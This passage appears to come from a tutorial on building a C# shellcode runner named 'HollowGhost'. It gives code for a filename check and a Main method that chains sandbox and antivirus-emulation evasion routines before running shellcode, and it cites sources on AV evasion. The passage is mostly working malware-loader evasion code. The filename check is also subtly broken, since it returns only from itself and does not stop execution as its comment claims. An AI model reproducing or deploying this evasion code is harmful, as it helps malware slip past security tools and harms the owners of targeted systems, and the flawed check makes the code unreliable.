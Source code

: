 ```csharp
        // Verify PE filename, sandboxes usually change the name of the EXE, here we check if the filename has been changed, if so, we stop execution
        public static void FilenameCheck()
        {
            string exename = "HollowGhost";
            if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
            {
                return;
            }
        }
    }
}
 
```

I found the majority of these emulation bypass techniques via this excellent paper by Emeric Nasi:

<https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf>

I was saved the work of converting these techniques to C# thanks to this GitHub repository:

<https://github.com/cinzinga/Evasion-Practice>

The file name check code I borrowed from this post by RedFox Security:

<https://redfoxsecurity.medium.com/antivirus-evasion-26a30f072f76>

With the methods set up in the **Evasion.cs** external class, we can now call them in the **Main** method of our **Program.cs** file.

First, make sure the namespace for **Evasion.cs** is imported:

```csharp
using HollowGhost.Modules.Evasion; 
```

Now, I call the public methods in **Main**:

```csharp
        static void Main(string[] args)
        {
            // Run sandbox/emulation evasion first before executing our shellcode
            // First check if the PE filename has been changed
            Evasion.FilenameCheck();
            // Use our Non Emulated APIs to mess up emulator
            Evasion.NonEmulatedAPIs();
            // Run the Sleep Timer, if time lapse is less that 1.5 seconds probably in emulator, so we exit before executing shellcode
            Evasion.SleepTimer();
            // Run memory fill to evade evasion
            Evasion.FillMemoryBypass();
            // Perform many iterations of for loop, 900 million, to trip up emulator
            Evasion.ManyIterations();
            // After evasion is performed we finally call the runner
            Run();
        } 
```
